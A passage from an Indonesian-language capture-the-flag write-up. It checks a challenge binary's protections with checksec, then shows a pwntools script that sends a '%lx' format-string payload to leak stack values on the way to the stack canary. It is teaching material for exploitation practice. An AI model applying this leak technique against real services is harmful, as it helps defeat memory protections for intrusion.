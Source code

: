 Sebelum menyerang, kita lihat apa proteksi yang dimiliki oleh file binary ```chall```. Pemeriksaan bisa dilakukan dengan program ```checksec``` yang bisa diunduh dengan command:
```
sudo apt install checksec
```
Untuk memerika proteksi, gunakan command berikut:
```
checksec chall
```
Diperoleh:
```
[*] 'XXX/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
File ini ternyata memiliki stack canary dan ada NX (non-executable) , namun untungnya tidak ada PIE (posisi symbol bisa berubah-ubah tiap dieksekusi) sehingga address di server dan lokal akan selalu sama.

**2. Get the canary**

Untuk bisa menjebol challenge ini, kita perlu lewati stack canary nya. Stack canary berada di stack sehingga bisa dilihat menggunakan **string format vulnerability**. Kita bisa mencoba script berikut untuk melihat isi stacknya. 
```
import pwn

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("%lx " * 10) #cek pake gdb
   #lihat responsenya
   canary_stack = c.recvline()
   print(canary_stack)
```
Coba kita jalankan scriptnya.
```
[+] Starting local process './chall': pid 41316
XXX/canary2win.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("%lx " * 10) #cek pake gdb
b'1 1 7fb4ed419aa0 0 0 20786c2520786c25 20786c2520786c25 20786c2520786c25 20786c2520786c25 20786c2520786c25 \n'
[*] Stopped process './chall' (pid 41316)
```
Ingat, karena ini binary 64-bit, maka kita perlu menggunakan formatter ```%lx``` agar menampilkan binary sebanyak 8 bytes.
